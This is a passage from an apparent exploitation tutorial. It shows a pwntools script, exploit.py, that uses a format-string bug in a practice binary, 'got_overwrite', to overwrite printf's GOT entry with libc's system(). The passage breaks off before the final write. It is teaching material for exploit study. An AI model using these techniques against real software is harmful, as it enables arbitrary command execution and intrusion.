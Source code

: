 **Obtain `libc` base address**:

```
ldd got_overwrite
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d7f000)
```

### Automated Exploit

`exploit.py`:

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Function to be called by FmtStr
def send_payload(payload):
    io.sendline(payload)
    return io.recvline()


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './got_overwrite'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Found manually (ASLR_OFF)
libc = elf.libc
libc.address = 0xf7d7f000 #0xf7e02150 #0xf7dba000  # ldd got_overwrite

# Find the offset for format string write
format_string = FmtStr(execute_fmt=send_payload)
info("format string offset: %d", format_string.offset)

# Print address to overwrite (printf) and what we want to write (system)
info("address to overwrite (elf.got.printf): %#x", elf.got.printf)
info("address to write (libc.functions.system): %#x", libc.symbols.system)

# Overwrite printf() in GOT with Lib-C system()
```
